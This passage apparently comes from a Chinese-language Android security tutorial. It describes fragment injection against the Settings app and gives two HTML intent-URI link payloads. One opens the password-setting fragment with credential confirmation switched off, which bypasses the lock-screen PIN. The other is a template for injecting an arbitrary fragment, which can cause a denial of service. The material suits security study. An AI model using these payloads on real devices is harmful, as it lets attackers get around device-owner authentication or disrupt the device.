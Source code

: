 ![](../pictures/androidac7.jpg)    

### 案例5：Fragment注入(绕过PIN+拒绝服务)
Fragment 这里只提一下，以后可能另写一篇。
```
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;
 launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
</a><br>
```
![](../pictures/androidac8.jpg)
```  
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
</a><br>
```